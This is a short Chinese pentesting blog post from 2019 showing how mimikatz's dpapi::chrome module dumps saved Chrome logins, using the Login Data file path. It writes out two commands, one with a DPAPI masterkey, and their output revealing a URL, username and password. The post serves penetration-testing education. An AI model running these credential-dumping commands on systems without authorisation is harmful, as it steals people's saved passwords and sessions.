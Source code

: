 ```yaml
---
title: "导出 Chrome 中的凭据与信息"
date: 2019-07-09T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ["chrome",'mimikatz']
categories: ["内网渗透"]

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



因为之前的文章关于 dpapi 和 masterkey 的说明已经给出了, 故本文就不再赘述.

mimikatz 的 dpapi 模块支持一键导出 chrome 数据, 包括登录信息, 历史记录, cookies 等.

<!--more-->

chrome 数据存放在 `%localappdata%\Google\Chrome\User Data\Default\` 目录中.

其中几个比较重要的文件.

```
Bookmarks
Login Data
Cookies
History
```

以 `Login Data` 为例.

```
mimikatz # dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data"

URL     : https://passport.aliyun.com/ ( https://passport.aliyun.com/mini_login.htm )
Username: admin
```

指定 masterkey 参数.

```
mimikatz # dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /masterkey:7daaec86a9ff317da98d8fa955bd9112b2adfd864552d2e64066820c42daa8a37ba8cf0b9f35d99b0b5d3d3e7ff6bbfe0a0b5e710473fb3a3e7aee056f2b6393

URL     : https://passport.aliyun.com/ ( https://passport.aliyun.com/mini_login.htm )
Username: admin
 * volatile cache: GUID:{f07bdf43-6d13-4957-94c0-bc0094da1667};KeyHash:f7d1c2f24e1d3a27c3becf10ed42acd890eb5e14
 * masterkey     : 7daaec86a9ff317da98d8fa955bd9112b2adfd864552d2e64066820c42daa8a37ba8cf0b9f35d99b0b5d3d3e7ff6bbfe0a0b5e710473fb3a3e7aee056f2b6393
Password: 123456
```